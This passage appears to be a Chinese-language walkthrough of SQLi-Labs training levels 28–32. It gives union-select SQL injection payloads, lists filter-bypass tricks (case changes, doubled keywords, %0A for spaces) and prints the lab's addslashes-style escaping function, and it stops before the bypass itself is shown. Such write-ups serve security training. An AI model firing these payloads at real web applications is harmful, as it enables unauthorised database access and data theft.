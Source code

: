 <img src="图片\Snipaste_2023-01-23_15-12-56.png" alt="Snipaste_2023-01-23_15-12-56" style="zoom:80%;" />

## Less28~29

闭合 sql 时不一样，与前几题的思路一致，大小写 双写 %0A绕空格 等等

## Less-30

```
?id=1"union select 1,2,3,4,5,6--+
```

## Less-31

```
?id=1")union select 1,2,3,4,5,6--+
```

## Less-32

Bypass addslashes()

```
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);  //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);            //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);           //escape double quote with a backslash          
    return $string;
}
```
